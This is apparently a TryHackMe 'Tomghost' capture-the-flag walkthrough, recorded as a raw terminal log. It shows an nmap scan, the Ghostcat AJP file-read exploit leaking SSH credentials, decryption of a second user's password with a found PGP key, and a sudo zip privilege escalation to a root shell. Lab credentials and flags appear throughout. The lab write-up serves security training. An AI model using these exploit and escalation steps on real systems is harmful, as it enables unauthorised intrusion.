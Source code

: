 # TomGhost_Workthrough
TryHackMe box Tomghost Workthrough


>sudo nmap -sC -sV 10.10.65.36
Starting Nmap 7.92SVN ( https://nmap.org ) at 2022-07-31 18:47 IST
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:47 (0:00:06 remaining)
Nmap scan report for 10.10.65.36
Host is up (0.21s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.72 seconds
> cd Ghostcat-CNVD-2020-10487
> ls
ajp-execute.png  ajp-read.png  ajp-save.png  ajpShooter.py  README.md
> python3 ajpShooter.py http://10.10.65.36 8009 /WEB-INF/web.xml

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    
usage: ajpShooter.py [-h] [--ajp-ip AJP_IP] [-H HEADER] [-X {GET,POST,HEAD,OPTIONS,PROPFIND}] [-d DATA] [-o OUT_FILE] [--debug] url ajp_port target_file {read,eval}
ajpShooter.py: error: the following arguments are required: shooter
> python3 ajpShooter.py http://10.10.65.36 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
> ssh skyfuck@10.10.65.36
The authenticity of host '10.10.65.36 (10.10.65.36)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:6: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.36' (ED25519) to the list of known hosts.
skyfuck@10.10.65.36's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ cd  ..
skyfuck@ubuntu:/home$ cd ..
skyfuck@ubuntu:/$ ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
skyfuck@ubuntu:/$ cd 
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ cd ..
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd skyfuck/
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ gpg -d credential.pgp 
gpg: directory `/home/skyfuck/.gnupg' created
gpg: new configuration file `/home/skyfuck/.gnupg/gpg.conf' created
gpg: WARNING: options in `/home/skyfuck/.gnupg/gpg.conf' are not yet active during this run
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: keyring `/home/skyfuck/.gnupg/pubring.gpg' created
gpg: encrypted with ELG-E key, ID 6184FBCC
gpg: decryption failed: secret key not available
skyfuck@ubuntu:~$ pgp --import tryhackme.asc 
The program 'pgp' is currently not installed. To run 'pgp' please ask your administrator to install the package 'pgpgpg'
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
skyfuck@ubuntu:~$ gpg -d credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$ 
skyfuck@ubuntu:~$ su merlin
Password: 
su: Authentication failure
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ ls
credential.pgp  tryhackme.asc
merlin@ubuntu:/home/skyfuck$ cd ..
merlin@ubuntu:/home$ cd ..
merlin@ubuntu:/$ cd ..
merlin@ubuntu:/$ cd home
merlin@ubuntu:/home$ cd merlin
merlin@ubuntu:~$ ls
user.txt
merlin@ubuntu:~$ cat user.txt 
THM{GhostCat_1s_so_cr4sy}
merlin@ubuntu:~$ sudo -l -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:

Sudoers entry:
    RunAsUsers: root
    RunAsGroups: root
    Options: !authenticate
    Commands:
        /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# ls -l
total 4
-rw-rw-r-- 1 merlin merlin 26 Mar 10  2020 user.txt
# ls-la
sh: 3: ls-la: not found
# ls -la
total 36
drwxr-xr-x 4 merlin merlin 4096 Mar 10  2020 .
drwxr-xr-x 4 root   root   4096 Mar 10  2020 ..
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
# ls -al  
total 36
drwxr-xr-x 4 merlin merlin 4096 Mar 10  2020 .
drwxr-xr-x 4 root   root   4096 Mar 10  2020 ..
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
# cd ..
# ls -a
.  ..  merlin  skyfuck
# cd ..
# ls 
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
# cd root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}

